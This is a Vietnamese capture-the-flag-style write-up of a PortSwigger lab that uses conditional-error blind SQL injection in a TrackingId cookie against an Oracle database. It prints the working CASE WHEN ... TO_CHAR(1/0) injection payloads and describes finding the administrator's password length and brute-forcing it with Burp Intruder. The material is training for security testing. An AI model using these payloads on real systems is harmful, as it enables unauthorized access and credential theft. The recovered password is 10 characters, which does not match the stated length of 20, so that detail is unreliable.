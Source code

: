 

Hello mọi người. Chào mừng mọi người đến với writeup của mình.
Đây là writeup đầu tiên của mình viết về khai thác chủng lỗi SQL injection để tìm mật khẩu của 1 tài khoản.
Đây là lab thực hành trong web PortSwigger. Writeup này mình viết chắc chỉ bạn nào có kiến thức an toàn thông tin mới hiểu.
các bạn còn lại hhiểu đơn giản đây là các bước thực hiện hack mật khẩu. Đây chỉ là 1 lab để luyện thoi, còn thực tế hiện này thì hầu hết web bảo mật tốt nên không áp dụng được. 

# Error - based SQLi


## condition error based SQLi

### Vấn đề của Blind SQLi 
Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về gt hay không. Ứng dụng không hiện thị dữ liệu truy vấn
OR 1=1 OR 1==2 thì giao diện trả về giông nhau nen khong dùng duoc
### Tạo lỗi có điều kiện ( Conditional Error )
Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

SELECT * FROM users WHERE username = '$input'

' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- 

### Thực hành
CASE 
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END

CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END

Note: các nhánh phải cùng kiểu dữ liệu.



Ví dụ:
SELECT 
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### Giải lab
Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
    Ghi lại hoạt động của người dùng (tracking).
    Liên kết với session hoặc log để phân tích hành vi.
    Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

B1. thử trackingID có bị SQLi không
![alt text](image.png)
![alt text](image-1.png)

chèn trackingID = abc' thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là 
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> có SQLi

B2. thử abc'||( select '' from dual)|| '  . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
trong oracle '' = NULL trong mysql
![alt text](image-2.png)

-> ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

B3. thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
backend hay không.

FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
![alt text](image-3.png)

B4. Test điều kiện đúng/sai bằng lõi chia cho 00

Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'
![alt text](image-4.png)
Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'
![alt text](image-5.png)

B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'
![alt text](image-6.png)
Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'
![alt text](image-7.png)

B6. Tính độ dài của password

![alt text](image-8.png) 
![alt text](image-9.png)

password có độ dài bằng 20 kí tự . 

B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list). 
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theotheo)
dùng như nào thì tự tìm hiểu nhé!

đây là ví dụ về kí tự đầu tiên
![alt text](image-10.png)

password ="sbeu5dvy8f"




